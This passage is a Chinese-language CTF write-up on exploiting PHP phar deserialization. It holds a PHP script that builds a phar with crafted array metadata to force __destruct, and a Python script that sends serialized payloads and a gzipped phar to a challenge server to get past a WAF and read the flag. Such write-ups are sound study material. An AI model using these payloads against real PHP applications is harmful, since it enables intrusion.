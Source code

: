 > 写入压缩后的phar数据(引用A类)进/tmp/a.txt(绕过waf中的get flag)
> phar://读取该文件触发反序列化
> 触发**__destruct**

然后发现没用...
看WP是说，在触发**__destruct**之前就已经抛出了异常，所以我得用一个错误来强制触发**__destruct**从而**getflag**
于是常规的类就行⑧通了，因为没有任何变量，你改变量数量也没用，这时候就要用到数组

```php
<?php
    @unlink("test.phar");
    class getflag{
 
    }
		// 创建一个数组
    $a = array(new getflag(), 1);
    $phar = new Phar("test.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); 
    $phar -> setMetadata($a);
    $phar->addFromString("1.txt", "123"); 
    $phar->stopBuffering();
?>
```

创建一个数组来得到该类

![image-20220828211023524](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828211023524.png)

将1改为0
剩下就是上面的操作

py发包

```python
import requests

url='http://1.14.71.254:28948/'
f=open("22.phar.gz", "rb")

get='?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
data1={0: f.read()}
# print(data1)
# print(f.read())
requests.post(url=url+'?0=O:1:"A":1:{s:6:"config";s:1:"w";}',data=data1)

getr='?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
datar={0: "phar://tmp/a.txt"}
r=requests.post(url=url+'?0=O:1:"A":1:{s:6:"config";s:1:"r";}',data={0: "phar://tmp/a.txt"})
r.encoding="utf-8"
print(r.text)
f.close()
```

中间发现了一个read的毛病，读完一次，第二次就为空了，看来半天才发现
